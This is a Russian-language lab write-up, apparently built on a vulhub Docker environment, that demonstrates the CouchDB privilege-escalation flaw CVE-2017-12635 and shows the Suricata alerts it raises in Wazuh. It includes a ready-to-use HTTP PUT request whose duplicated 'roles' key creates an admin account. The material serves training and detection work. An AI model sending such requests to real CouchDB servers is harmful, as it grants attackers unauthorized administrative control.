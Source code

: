 # CVE-2017-12635

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-12635](https://nvd.nist.gov/vuln/detail/CVE-2017-12635)
* [https://docs.couchdb.org/en/stable/cve/2017-12635.html](https://docs.couchdb.org/en/stable/cve/2017-12635.html)

Из-за различий в парсере JSON CouchDB, основанном на Erlang, и парсере JSON, основанном на JavaScript, возможно предоставление документов \_users с дублирующимися ключами для ролей, используемых для контроля доступа в базе данных, включая роль \_admin, обозначающей административных пользователей.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:5984/\_utils/ будет доступна страница авторизации CouchDB

<figure><img src="../.gitbook/assets/cve-2017-12635(1).png" alt=""><figcaption></figcaption></figure>

Для добавления пользователя можно отправить соответствующий запрос:

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: ваш-ip:5984
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/json
Content-Length: 92

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}	
```

Но после его отправки мы получим ответ, что только администратор может выставлять роли пользователям&#x20;

<figure><img src="../.gitbook/assets/cve-2017-12635(2).png" alt=""><figcaption></figcaption></figure>

Но, если добавить дополнительное пустое поле "roles", то можно обойти ограничение

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: ваш-ip:5984
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

<figure><img src="../.gitbook/assets/cve-2017-12635(3).png" alt=""><figcaption></figcaption></figure>

Был создан пользователь vulhub с паролем vulhub с ролью администратора:

<figure><img src="../.gitbook/assets/cve-2017-12635(4).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации CouchDB RCE&#x20;

<figure><img src="../.gitbook/assets/cve-2017-12635(5).png" alt=""><figcaption></figcaption></figure>
